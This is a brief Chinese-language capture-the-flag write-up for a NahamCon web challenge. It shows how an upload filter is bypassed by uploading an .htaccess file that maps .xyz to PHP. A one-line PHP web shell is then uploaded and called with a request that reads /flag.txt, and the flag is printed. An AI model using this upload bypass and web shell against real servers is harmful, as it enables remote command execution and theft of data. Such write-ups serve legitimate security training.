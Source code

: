 # 题目描述

It's as easy as it looks, isn't it?

# 解决方案

题目提供了附件，其中有源码，找到[save_memories.php](file/www/save_memories.php)，打开一看，发现是文件上传，但是过滤了很多php相关的后缀，大小写绕过也不行，于是想到上传.htaccess，文件内容如下：

```
AddType application/x-httpd-php .xyz
```

然后上传文件名为shell.xyz的文件，文件内容为：

```php
<?php system($_GET['shell']);?>
```

然后访问`http://challenge.nahamcon.com:32607/shell.xyz?shell=cat%20/flag.txt`，直接拿到flag：flag{32697ad7acd2d4718758d9a5ee42965d}
